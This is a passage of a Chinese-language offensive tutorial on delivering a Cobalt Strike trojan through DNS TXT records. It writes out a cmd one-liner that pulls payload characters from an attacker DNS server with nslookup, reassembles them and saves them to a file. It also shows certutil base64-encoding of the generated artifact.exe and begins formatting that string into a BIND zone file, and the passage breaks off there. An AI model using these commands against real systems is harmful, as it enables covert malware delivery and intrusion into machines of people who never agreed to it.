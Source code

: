 这个时候我们再来看上面例子中传递任意字符的那条指令

    
    
    cmd /v:on /Q /c "set a= && set b= && for /f "tokens=*" %i in ('nslookup -qt^=TXT www.mydomain.com 192.168.31.88 ^| findstr "exec"') do (set a=%i && set b=!b!!a:~5,-2!) && set c=!a:~-6,-2! && if "eofs" == "!c:~0,-1!" echo !b:~1,-4!" > ttt.txt  
    

这里有一个判断是 `if "eofs" == "!c:~0,-1!"` `"!c:~0,-1!"` 就是可以看成一个变量，这里的意思也就是如果这个变量等于
`eofs`，那么就 `echo !b:~1,-4!` ,也就是打印一个变量的值

这里的 `eofs` 是我自定义的，为了能够控制在全部字符传递结束后打印并重定向到文件中，我只能在 `TXT` 中的最后一行设置为 `execeofs`
，其中 `exec` 为 筛选用的 `flag` ，`eofs` 作为结束标志，并在最终的打印字符中将这四个字符去掉，这样才能取得完整的字符

## 0x06 再走一遍CS木马上线

这回把所有的知识点都解释了，我们来重新实施一遍，一次性让大家都能够实操

DNS服务器搭建这种就不说了，只说配置问题

### 生成木马文件

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112043.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112045.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112047.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112048.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112049.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112051.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112052.png)

### certutil 生成特定格式base64字符串

    
    
    certutil -encode artifact.exe a.txt  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112053.png)

### 将字符串处理成 BIND 配置文件

BIND 配置文件的字符格式为

    
    
    ("aaa"  
    "bbb"  
    "ccc)  
    